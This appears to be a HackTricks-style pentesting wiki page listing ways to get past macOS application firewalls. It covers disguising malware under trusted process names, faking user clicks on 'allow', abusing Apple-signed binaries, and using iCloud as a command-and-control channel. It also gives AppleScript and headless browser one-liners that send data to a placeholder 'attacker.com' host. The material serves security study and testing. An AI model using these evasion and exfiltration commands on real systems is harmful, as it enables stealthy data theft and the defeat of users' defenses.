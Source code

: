 # macOS Bypassing Firewalls

{{#include ../../banners/hacktricks-training.md}}

## Found techniques

The following techniques were found working in some macOS firewall apps.

### Abusing whitelist names

- For example calling the malware with names of well known macOS processes like **`launchd`**

### Synthetic Click

- If the firewall ask for permission to the user make the malware **click on allow**

### **Use Apple signed binaries**

- Like **`curl`**, but also others like **`whois`**

### Well known apple domains

The firewall could be allowing connections to well known apple domains such as **`apple.com`** or **`icloud.com`**. And iCloud could be used as a C2.

### Generic Bypass

Some ideas to try to bypass firewalls

### Check allowed traffic

Knowing the allowed traffic will help you identify potentially whitelisted domains or which applications are allowed to access them

```bash
lsof -i TCP -sTCP:ESTABLISHED
```

### Abusing DNS

DNS resolutions are done via **`mdnsreponder`** signed application which will probably vi allowed to contact DNS servers.

<figure><img src="../../images/image (468).png" alt="https://www.youtube.com/watch?v=UlT5KFTMn2k"><figcaption></figcaption></figure>

### Via Browser apps

- **oascript**

```applescript
tell application "Safari"
    run
    tell application "Finder" to set visible of process "Safari" to false
    make new document
    set the URL of document 1 to "https://attacker.com?data=data%20to%20exfil
end tell
```

- Google Chrome

```bash
"Google Chrome" --crash-dumps-dir=/tmp --headless "https://attacker.com?data=data%20to%20exfil"
```

- Firefox

```bash
firefox-bin --headless "https://attacker.com?data=data%20to%20exfil"
```

- Safari

```bash
open -j -a Safari "https://attacker.com?data=data%20to%20exfil"
```

### Via processes injections

If you can **inject code into a process** that is allowed to connect to any server you could bypass the firewall protections:

{{#ref}}
macos-proces-abuse/
{{#endref}}

## References

- [https://www.youtube.com/watch?v=UlT5KFTMn2k](https://www.youtube.com/watch?v=UlT5KFTMn2k)

{{#include ../../banners/hacktricks-training.md}}



